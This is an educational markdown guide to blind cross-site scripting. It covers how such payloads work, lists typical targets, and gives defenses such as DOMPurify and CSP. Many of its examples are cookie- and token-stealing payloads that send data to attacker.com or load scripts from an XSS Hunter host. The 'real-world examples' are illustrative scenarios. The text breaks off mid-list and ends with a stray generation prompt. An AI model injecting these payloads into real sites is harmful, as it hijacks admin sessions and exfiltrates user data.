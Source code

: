 

# **Blind XSS (In-Depth)**

## **Introduction to Blind XSS**
Blind XSS is a type of Cross-Site Scripting (XSS) attack where the attacker's payload is stored and executed in a different context than where it was injected, often in an admin panel or backend system. Unlike traditional stored XSS, the attacker does not immediately see the result of the payload execution.

### **Key Characteristics:**
- **Delayed Execution**: The payload triggers at a later time when accessed by another user (e.g., an admin).
- **No Immediate Feedback**: The attacker does not see the response directly.
- **Harder to Detect**: Since the payload executes in a different context, traditional scanners may miss it.

---

## **How Blind XSS Works**
1. **Payload Injection**: Attacker submits malicious input (e.g., via contact forms, comments, or user profiles).
2. **Storage on Server**: The input is stored in a database or log file.
3. **Triggered Execution**: When an admin or another privileged user views the stored data, the payload executes.
4. **Exfiltration of Data**: The payload sends sensitive information (cookies, session tokens) back to the attacker.

---

## **Common Attack Vectors**
1. **Admin Dashboards**  
   - Admin panels often review user-submitted data (e.g., support tickets, logs).
2. **Log Files**  
   - Web servers store logs that may include malicious input.
3. **User Profiles**  
   - Some systems allow HTML/JS in profile fields that admins review.
4. **Feedback Forms**  
   - Attackers submit malicious scripts that execute when reviewed.

---

## **Exploiting Blind XSS**
### **(1) Crafting Payloads**
Since feedback is delayed, attackers use callback mechanisms:
```html
<script>
  fetch('https://attacker.com/steal?data=' + document.cookie);
</script>
```
Or use services like:
- **[XSS Hunter](https://xsshunter.com/)** – Automates blind XSS detection.
- **[Interact.sh](https://interact.sh/)** – Checks for out-of-band interactions.

### **(2) Testing with Delayed Callbacks**
Instead of `alert()`, use:
```javascript
new Image().src="http://attacker.com/log?data="+encodeURIComponent(document.cookie);
```


---

### **(3) Advanced Payload Techniques**  
Blind XSS often requires evasion and persistence:  
- **DOM-Based Exfiltration**:  
  ```javascript
  document.addEventListener('DOMContentLoaded', () => {
    navigator.sendBeacon('https://attacker.com/collect', window.location.href);
  });
  ```
- **Session Hijacking**:  
  ```javascript
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({cookie: document.cookie, localStorage: localStorage})
  });
  ```

- **Delayed Triggers**:  
  ```javascript
  setTimeout(() => {
    window.location.href = 'https://attacker.com/redirect?data=' + btoa(document.documentElement.innerHTML);
  }, 5000); // Executes after 5 seconds
  ```

---

### **(4) Using Blind XSS Tools**  
Automate detection with:  
- **XSS Hunter** – Hosted service that captures callbacks (screenshots, cookies, DOM).  
- **Burp Collaborator** – Built into Burp Suite for out-of-band testing.  

Example payload for XSS Hunter:  
```html
<script src="https://xsshunter.com/yourpayload.js"></script>
```

---

## **Defending Against Blind XSS**  

### **(1) Input Sanitization**  
- Use libraries like `DOMPurify` to sanitize HTML/JS in user inputs.  
- Encode outputs with context-aware escaping (HTML, JavaScript, URL).  

### **(2) Content Security Policy (CSP)**  
Restrict script execution:  
```http
Content-Security-Policy: default-src 'self'; script-src 'none'; connect-src 'none';
```
Prevents data exfiltration via `fetch()` or `<img src="attacker.com">`.  

### **(3) Monitoring and Logging**  
- Audit admin panels/logs for suspicious scripts.  
- Implement WAF rules to block known XSS payloads.  

### **(4) Least Privilege for Admin Views**  
- Render user-submitted content as plain text in admin dashboards.  
- Use iframes with sandbox attributes for unsafe content.  

---

## **Real-World Examples**  


### **1. Ticket Support Systems (Zendesk, Freshdesk)**
- **Scenario**: An attacker submits a malicious ticket with a JavaScript payload in the "description" field.
- **Execution**: When a support agent views the ticket in the admin panel, the payload executes, stealing their session cookie.
- **Impact**: Attacker gains unauthorized access to the support system and potentially customer data.

**Payload Used**:
```html
<script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>
```

---

### **2. Web Application Logs (Apache/Nginx)**
- **Scenario**: An attacker injects a payload into HTTP headers (e.g., `User-Agent` or `Referer`).
- **Execution**: The payload is stored in server logs. When an admin reviews logs via a web interface, the script triggers.
- **Impact**: Sensitive server/application data is exfiltrated.

**Payload Used**:
```javascript
<img src=x onerror="navigator.sendBeacon('https://attacker.com/log', window.location.href)">
```

---

### **3. User Profiles with Admin Moderation**
- **Scenario**: A social media platform allows users to embed HTML in bios, which admins review before approval.
- **Execution**: The attacker submits a malicious profile with a hidden XSS payload. When an admin views it, the script runs.
- **Impact**: Admin accounts are compromised, leading to privilege escalation.

**Payload Used**:
```html
<svg onload="fetch('https://attacker.com/hijack?data=' + localStorage.getItem('token'))">
```

---

### **4. CMS Admin Panels (WordPress, Joomla)**
- **Scenario**: A WordPress plugin stores unfiltered user comments in the database.
- **Execution**: The payload fires when an admin reviews "pending comments" in `/wp-admin`.
- **Impact**: Attackers gain admin access to the CMS.

**Payload Used**:
```javascript
<script src="https://xsshunter.com/wordpress_hook.js"></script>
```

---

## **Why Blind XSS is Dangerous**
1. **Stealthy Persistence**: Payloads can remain dormant for weeks until triggered.
2. **High Impact Targets**: Often exploits privileged users (admins, auditors).
3. **B
Continue from Why blind XSS is Dangerous Append dont write all
